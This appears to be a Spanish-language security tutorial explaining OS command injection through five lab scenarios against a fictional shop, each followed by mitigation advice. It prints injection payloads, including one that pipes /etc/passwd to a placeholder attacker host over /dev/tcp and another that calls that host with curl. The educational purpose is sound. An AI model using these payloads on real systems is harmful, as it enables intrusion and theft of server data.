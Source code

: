 ## Command Injection | Guía completa

Command Injection es una vulnerabilidad que permite a un atacante ejecutar comandos del sistema operativo en el servidor que aloja una aplicación web. Esta vulnerabilidad ocurre cuando la aplicación no valida adecuadamente las entradas del usuario y permite que se ejecuten comandos arbitrarios. Los ataques de Command Injection pueden llevar a consecuencias graves, como la ejecución de código malicioso, el robo de información sensible o incluso el control completo del servidor.


## Lab #1: OS command injection, simple case
En este laboratorio, se presenta un caso simple de Command Injection. El objetivo es ejecutar un comando del sistema operativo en el servidor web. Por ejemplo, supongamos que la aplicación tiene una función de búsqueda que permite al usuario ingresar un término de búsqueda y luego ejecuta el comando ping en el servidor para verificar la conectividad. Un atacante podría aprovechar esto para ejecutar comandos maliciosos como:

http://www.ejemplotienda.com/search?term=8.8.8.8; ls -la
El comando ls -la se ejecutaría en el servidor junto con el comando ping, lo que permitiría al atacante listar el contenido del directorio y obtener información confidencial.

Solución: Para mitigar este tipo de vulnerabilidad, la aplicación debe validar y sanitizar adecuadamente las entradas del usuario. Se deben implementar medidas como la utilización de listas blancas de caracteres permitidos y la ejecución segura de comandos mediante el uso de funciones o bibliotecas específicas que eviten la inyección de comandos.

## Lab #2: Blind OS command injection with time delays
En este laboratorio, se presenta un escenario de Command Injection ciego que no devuelve resultados directos en la respuesta de la aplicación. En lugar de eso, el atacante debe aprovechar retrasos en el tiempo para inferir la ejecución exitosa de un comando. Por ejemplo, supongamos que la aplicación tiene una función de envío de correos electrónicos que permite al usuario ingresar un mensaje y una dirección de correo electrónico. El atacante podría utilizar una inyección de comando para ejecutar un comando malicioso junto con un retraso en el tiempo, como:

http://www.ejemplotienda.com/contact?message=test&email=test@example.com; sleep 10
Si la aplicación demora aproximadamente 10 segundos en enviar el correo electrónico, el atacante puede inferir que el comando sleep 10 se ejecutó correctamente.

Solución: La solución para mitigar este tipo de vulnerabilidad implica una combinación de validación estricta de las entradas del usuario y el uso de técnicas de ejecución de comandos seguras que eviten la inyección de comandos. Además, se deben evitar retrasos innecesarios en la aplicación que puedan ayudar a los atacantes a inferir la ejecución exitosa de comandos.

## Lab #3: Blind OS command injection with output redirection
En este laboratorio, se explora una variante de Command Injection ciego que redirige la salida del comando a una ubicación controlada por el atacante.En la web ficticia "ejemplotienda.com", supongamos que la aplicación permite a los usuarios cargar imágenes de perfil y luego redimensionarlas utilizando un comando del sistema operativo. El atacante podría aprovechar esto para ejecutar comandos maliciosos y redirigir la salida a una ubicación controlada por él, como:

http://www.ejemplotienda.com/upload?image=test.jpg; ls -la > /var/www/html/attacker/output.txt
El comando ls -la se ejecutaría en el servidor y la salida se redirigiría al archivo /var/www/html/attacker/output.txt. De esta manera, el atacante puede obtener información confidencial y controlar el destino de la salida.

Solución: Para mitigar este tipo de vulnerabilidad, es fundamental que la aplicación realice una validación y sanitización rigurosas de las entradas del usuario. Además, se deben utilizar funciones o bibliotecas seguras para la ejecución de comandos, evitando la inyección de comandos y la redirección no controlada de la salida.

## Lab #4: Blind OS command injection with out-of-band interaction
En este laboratorio, se presenta una variante de Command Injection ciego que interactúa con el atacante a través de canales alternativos. Por ejemplo, supongamos que la aplicación tiene una función que realiza una llamada al sistema operativo y envía un mensaje de confirmación al atacante a través de una solicitud HTTP a un servidor controlado por él. El atacante podría utilizar una inyección de comando para ejecutar comandos maliciosos y enviar los resultados a través de una solicitud HTTP a su servidor, como:

http://www.ejemplotienda.com/execute?command=ping -c 5 8.8.8.8; curl http://attacker-server.com/notify?result=executed
El comando ping -c 5 8.8.8.8 se ejecutaría en el servidor y los resultados se enviarían al servidor del atacante a través de la solicitud HTTP.

Solución: Para mitigar esta vulnerabilidad, se debe implementar una validación estricta de las entradas del usuario, asegurando que no se permitan caracteres o comandos maliciosos. Además, se deben evitar interacciones no controladas con sistemas externos y restringir las conexiones salientes desde la aplicación.

## Lab #5: Blind OS command injection with out-of-band data exfiltration
En este laboratorio, se explora otra variante de Command Injection ciego que permite al atacante exfiltrar datos a través de canales alternativos. Supongamos que la aplicación tiene una función que ejecuta comandos del sistema operativo y muestra los resultados en una página de administración. El atacante podría utilizar una inyección de comando para exfiltrar datos a su servidor controlado, como:

http://www.ejemplotienda.com/admin?command=cat /etc/passwd > /dev/tcp/attacker-server.com/80
El comando cat /etc/passwd se ejecutaría en el servidor y los resultados se enviarían al servidor del atacante utilizando una conexión TCP saliente.

Solución: Para mitigar esta vulnerabilidad, se deben implementar medidas de seguridad como la validación exhaustiva de las entradas del usuario y el uso de funciones seguras para la ejecución de comandos. Además, se deben limitar las conexiones salientesdesde la aplicación y monitorear las comunicaciones de red en busca de actividad sospechosa.
